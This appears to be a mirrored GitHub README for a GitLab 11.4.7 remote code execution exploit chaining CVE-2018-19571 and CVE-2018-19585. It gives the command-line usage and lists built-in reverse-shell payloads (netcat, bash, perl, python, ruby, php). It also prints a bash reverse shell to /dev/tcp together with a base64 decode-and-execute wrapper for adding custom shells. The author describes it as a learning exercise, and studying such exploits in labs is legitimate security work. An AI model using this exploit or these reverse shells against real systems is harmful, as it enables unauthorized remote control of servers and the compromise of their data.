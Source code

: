 # gitlab-RCE-11.4.7

GitLab 11.4.7 RCE exploit with different reverse shells. CVE-2018-19571 + CVE-2018-19585

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Algafix](https://github.com/Algafix) |
| Url      | [https://github.com/Algafix/gitlab-RCE-11.4.7](https://github.com/Algafix/gitlab-RCE-11.4.7)                                               |
| Stars    | 3                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2018-19571* cve-2018-19585* exploit* gitlab

</details>

## Readme

# gitlab-RCE-11.4.7
GitLab 11.4.7 CE RCE exploit with different reverse shells.  
CVE-2018-19571: https://nvd.nist.gov/vuln/detail/CVE-2018-19571  
CVE-2018-19585: https://nvd.nist.gov/vuln/detail/CVE-2018-19585

Modification of the version from [Sam Redmond and Tam Lai Yin](https://github.com/ctrlsam/GitLab-11.4.7-RCE) in order to learn and practice.

## How to use

It is written in python3 as all things should be.

Dependencies:
```
pip3 install requests
```

Use:

```
python3 rce_script.py -u <username> -p <password> -g <url:port> -l <local ip> -P <local port> [<shell lang>]
```

By default, the netcat with -e option shell is used.


## Build-in shells

Current build-in shells:

  - nc_e
    - Netcat with the -e option.
  - bash: 
    - Bash executed with absolute path.
  - perl: 
    - Perl executed from the $PATH.
  - python3: 
    - Python3 executed from the $PATH.
  - ruby: 
    - Ruby executed from the $PATH.
  - php: 
    - PHP executed from the $PATH. **Note**: Usually doesn't work in the GitLab docker.

## Add user-defined shells

Some shells contain characters thats doesn't get along with the request encoding. Therefore they are encoded in Base64 and then decoded and executed in the victim's machine.

If you want to add your own shell, add a value to the ```payloads_dict``` structure.

You must define the following:

```python
'bash': {
    # If the raw_payload can be executed withoud encoding
    'safe': False,
    # Payload, must contain the references for the local_ip and for the local_port
    'raw_payload': 'bash -i >& /dev/tcp/{local_ip}/{local_port} 0>&1',
    # How to execute the payload if safe is False. Must conatin the reference for payload
    'exec_string': 'echo {payload} | base64 -d | /bin/bash'
}
```

## Disclaimer

The HTML parsing is pretty hardcoded, it may break easily.






## Get the content

```
git clone https://github.com/Algafix/gitlab-RCE-11.4.7
cd gitlab-RCE-11.4.7
```

{% embed url="https://github.com/Algafix/gitlab-RCE-11.4.7" %}

<figure><img src="https://avatars.githubusercontent.com/u/26028451?v=4" alt=""><figcaption><p>Algafix</p></figcaption></figure>
